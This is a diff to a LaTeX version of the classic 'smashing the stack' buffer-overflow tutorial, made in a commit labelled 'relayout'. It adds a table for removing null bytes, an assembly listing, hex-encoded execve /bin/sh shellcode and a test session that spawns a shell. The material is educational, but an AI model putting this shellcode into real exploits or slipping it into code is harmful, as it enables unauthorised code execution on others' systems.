

Before and after one commit to descent/latex_doc, a LaTeX document (stack_smashing/stack_smashing.tex): part of page 32 of 32 before the commit and two parts of pages 32 and 33 of 34 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
relayout

```diff
--- a/stack_smashing/stack_smashing.tex
+++ b/stack_smashing/stack_smashing.tex
@@ -850,3 +850,63 @@ bytes in our shellcode will be considered the end of the string, and the copy wi
 be no null bytes in the shellcode for the exploit to work. Let's try to eliminate the bytes (and at the same
 time make it smaller).
 
+\begin{tabular}{lll}
+           Problem instruction: &   &             Substitute with: \\
+
+           \hline
+           movb   \verb+$0x0,0x7(%esi)+       &      &   xorl   \verb+%eax,%eax+ \\
+           movl   \verb+$0x0,0xc(%esi)+       &      &   movb   \verb+%eax,0x7(%esi)+ \\
+                                              &      &   movl   \verb+%eax,0xc(%esi)+ \\
+
+           \hline
+           movl   \verb+$0xb,%eax+       & &              movb   \verb+$0xb,%al+ \\
+
+           \hline
+           movl   \verb+$0x1, %eax+ & &                    xorl   \verb+%ebx,%ebx+ \\
+           movl   \verb+$0x0, %ebx+ & &                    movl   \verb+%ebx,%eax+ \\
+           \hline
+                                     & &                inc    \verb+%eax+ \\
+\end{tabular}
+
+
+
+
+Our improved code: shellcodeasm2.c
+
+\begin{lstlisting}[caption=shellcodeasm2.c,basicstyle=\footnotesize]
+void main()
+{
+__asm__("
+        jmp    0x1f               # 2 bytes
+        popl   %esi               # 1 byte
+        movl   %esi,0x8(%esi)     # 3 bytes
+        xorl   %eax,%eax          # 2 bytes
+        movb   %eax,0x7(%esi)     # 3 bytes
+        movl   %eax,0xc(%esi)     # 3 bytes
+        movb   $0xb,%al           # 2 bytes
+        movl   %esi,%ebx          # 2 bytes
+        leal   0x8(%esi),%ecx     # 3 bytes
+        leal   0xc(%esi),%edx     # 3 bytes
+        int    $0x80              # 2 bytes
+        xorl   %ebx,%ebx          # 2 bytes
+        movl   %ebx,%eax          # 2 bytes
+        inc    %eax               # 1 bytes
+        int    $0x80              # 2 bytes
+        call   -0x24              # 5 bytes
+        .string \"/bin/sh\"       # 8 bytes
+                                  # 46 bytes total
+");
+}
+\end{lstlisting}
+
+And our new test program: testsc2.c
+
+\begin{lstlisting}[caption=testsc2.c,basicstyle=\tiny]
+char shellcode[] =
+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
+"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
+"\x80\xe8\xdc\xff\xff\xff/bin/sh";
+
+void main()
+{
+   int *ret;
@@ -852,0 +919,5 @@ time make it smaller).
+[aleph1]$ gcc -o testsc2 testsc2.c
+[aleph1]$ ./testsc2
+$ exit
+[aleph1]$
+\end{verbatim}
@@ -853,2 +931 @@ time make it smaller).
 \begin{comment}
-           Problem instruction:                 Substitute with:
@@ -938,23 +932,3 @@ void main() {
-   (*ret) = (int)shellcode;
-
-}
-
-[aleph1]$ gcc -o testsc2 testsc2.c
-
-[aleph1]$ ./testsc2
-
-$ exit
-
-[aleph1]$
-
-Writing an Exploit
-
-Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which
-
-we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example
-
-will demonstrate these points:
-
 overflow1.c
 
 char shellcode[] =
```
Also changed, not shown: stack_smashing/stack_smashing.tex (96 more changed lines).
